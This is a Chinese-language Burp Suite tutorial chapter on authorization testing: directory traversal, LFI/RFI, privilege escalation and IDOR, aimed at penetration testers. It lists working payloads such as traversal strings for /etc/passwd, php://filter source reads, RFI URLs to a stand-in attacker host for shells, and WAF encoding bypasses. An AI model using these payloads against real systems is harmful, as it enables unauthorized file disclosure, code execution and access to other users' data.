

# 授权检查：遍历/LFI/RFI、权限提升、IDOR

## 一句话定义
授权测试验证"登录后能不能干不该干的事"：目录遍历读任意文件、LFI/RFI 包含执行代码、水平/垂直权限提升、IDOR 改 ID 访问他人资源——核心手段是**双账号对比**与**路径/参数篡改**。

## 核心架构 / 工作原理



| 漏洞类型 | 典型参数位置 | 测试 Payload 示例 | 判定成功标准 |
|----------|--------------|-------------------|--------------|
| 目录遍历 | 文件名/路径/模板参数 | `../../../../etc/passwd` `..%2f..%2f..%2fetc%2fpasswd` `....//....//etc/passwd` | 响应包含 `root:x:0:0` / Windows hosts 内容 |
| LFI | `file=` `page=` `template=` `include=` | `/var/www/html/index.php` `/proc/self/environ` `php://filter/convert.base64-encode/resource=index.php` | 响应包含文件内容/源码/环境变量 |
| RFI | 同 LFI(需 allow_url_include=On) | `http://attacker.com/shell.txt` `http://attacker.com/shell.php?.jpg` | 远程代码执行/反弹 Shell |
| 权限提升 | 角色/权限/组/用户 ID 参数 | `role=admin` `privilege=1` `group_id=1` `user_type=superadmin` | 能访问管理员功能/看到管理员数据 |
| IDOR | `id=` `user_id=` `order_id=` `file_id=` | 登录用户 A → 抓请求 → 改 ID 为用户 B 的 → 发送 | 返回用户 B 的数据/能修改用户 B 的资源 |

## 快速上手步骤

1. **准备双账号**：注册/获取两个不同权限账号(普通 user_a / 普通 user_b / 管理员 admin)
2. **目录遍历/LFI/RFI**：
   - 找文件操作接口(下载/预览/模板/导入) → Send to Repeater
   - 遍历 Payload 列表 → 逐个发送 → 看响应是否回显文件内容
   - 编码层层试：原始 → URL 编码 → 双重编码 → Unicode → 空字节注入
3. **权限提升**：
   - 管理员账号操作某功能(如 `/api/admin/users`) → 抓请求
   - 普通账号登录 → Repeater 复现该请求 → 看是否 200/返回数据
   - 找隐藏参数：响应里搜 `role` `permission` `isAdmin` `type` → 请求里加/改该参数
4. **IDOR 批量验证**：
   - 列出所有带对象 ID 的接口(`/api/orders/123` `/api/profile/456` `/api/files/789`)
   - Intruder Sniper/Pitchfork → 位置标记 ID → Payloads: 数字序列/从枚举接口拿到的 ID 列表
   - 双账号 Cookie 切换：Session Handling Rules → Cookie Jar → 自动带当前账号 Cookie
   - 结果表看：状态码 200 + 响应含他人数据 → 确认 IDOR

```bash
# 遍历编码 Payload 生成(示例)
echo -e "../../../etc/passwd\n..%2f..%2f..%2fetc%2fpasswd\n....//....//etc/passwd\n..%252f..%252f..%252fetc%252fpasswd" > traversal.txt
```

## 踩坑避坑指南

| 场景 | 问题现象 | 原因 | 解决/最佳实践 |
|------|----------|------|---------------|
| 只测自己账号 | 发现不了 IDOR | 无对比基线 | **必须双账号**：A 的请求改 B 的 ID，对比响应差异 |
| 遍历编码一次失败就放弃 | 漏掉双重编码/Unicode 绕过 | WAF/过滤器分层 | **多层编码测试**：原始 → URL → 双重 URL → Unicode(..%u2216) → 空字节(%00) |
| 以为 HTTPS 就安全 | 授权缺陷与加密无关 | 认知偏差 | 授权是应用层逻辑，传输加密不解决越权 |
| UUID 以为不可猜 | 直接放弃测试 | UUID v1 基于时间/MAC 可预测；v4 可能泄露在日志/URL/Referer | 收集 UUID 样本分析版本；搜泄露点(日志/邮件/前端/Referer) |
| 只测数字 ID | 忽略文件名/键名/复合键 | 测试面窄 | 所有**用户可控的对象引用**都要测：文件名、S3 key、数据库主键、复合键(组合 ID) |

## 替代方案对比

| 维度 | Burp 手测授权 | OWASP ZAP | 自动化扫描器 | 代码审计 |
|------|---------------|-----------|--------------|----------|
| IDOR 发现率 | ✅ 高(双账号对比法) | ⚠️ 需配置上下文 | ❌ 极低(无语义理解) | ✅ 源码级全覆盖 |
| 遍历/LFI | ✅ Repeater 精细改包 | ✅ Fuzzer | ✅ Nuclei 模板 | ✅ 源码追踪 |
| 权限提升 | ✅ 逻辑层手测 | ⚠️ 有限 | ❌ 无 | ✅ RBAC/ABAC 模型分析 |
| 批量验证 | ✅ Intruder + Cookie Jar | ⚠️ Scripting | ✅ 规则引擎 | ❌ 静态 |

---

> 参考来源：*Burp Suite Cookbook (2023)*（本文为原创讲解，非转载原文）

*下一篇：[会话管理测试：令牌强度、Cookie、会话固定、CSRF](07-会话管理测试.md)*

> 💡 **配图建议**：在"目录遍历"处放 Repeater 发送 `../../../../etc/passwd` 并收到响应截图(高亮 root:x:0:0)；在"IDOR 双账号法"处放两列对比图(左:用户 A 请求/响应、右:改 ID 后用户 B 数据泄露)；在"权限提升"处放隐藏参数发现截图(响应体搜索 role/isAdmin 高亮)。